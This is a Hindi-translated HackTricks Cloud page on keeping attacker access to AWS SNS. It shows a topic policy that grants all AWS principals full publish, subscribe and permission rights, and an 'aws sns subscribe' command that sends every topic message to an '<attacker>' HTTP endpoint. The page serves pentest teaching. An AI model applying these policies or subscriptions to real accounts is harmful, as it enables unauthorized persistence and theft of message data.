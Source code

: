 # AWS - SNS Persistence

<details>

<summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SNS

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-sns-enum.md" %}
[aws-sns-enum.md](../aws-services/aws-sns-enum.md)
{% endcontent-ref %}

### Persistence

**SNS टॉपिक** बनाते समय आपको इंडिकेट करना होता है कि कौन सी IAM नीति के साथ **किसके पास पढ़ने और लिखने का एक्सेस है**। यह संभव है कि आप बाहरी खातों, भूमिका के ARN, या **यहां तक कि "\*"** को इंडिकेट करें।\
निम्नलिखित नीति में AWS में सभी को SNS टॉपिक **`MySNS.fifo`** में पढ़ने और लिखने का एक्सेस देती है:
```json
{
"Version": "2008-10-17",
"Id": "__default_policy_ID",
"Statement": [
{
"Sid": "__default_statement_ID",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"SNS:Publish",
"SNS:RemovePermission",
"SNS:SetTopicAttributes",
"SNS:DeleteTopic",
"SNS:ListSubscriptionsByTopic",
"SNS:GetTopicAttributes",
"SNS:AddPermission",
"SNS:Subscribe"
],
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
"Condition": {
"StringEquals": {
"AWS:SourceOwner": "318142138553"
}
}
},
{
"Sid": "__console_pub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Publish",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
},
{
"Sid": "__console_sub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Subscribe",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
}
]
}
```
### सदस्य बनाएँ

सभी विषयों से सभी संदेशों को चोरी करने के लिए हमलावर **सभी विषयों के लिए सदस्य बना सकते हैं**।

ध्यान दें कि यदि **विषय FIFO प्रकार का है**, तो केवल प्रोटोकॉल **SQS** का उपयोग करने वाले सदस्यों का उपयोग किया जा सकता है।
```bash
aws sns subscribe --region <region> \
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
<details>

<summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **फॉलो** करें मुझे **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
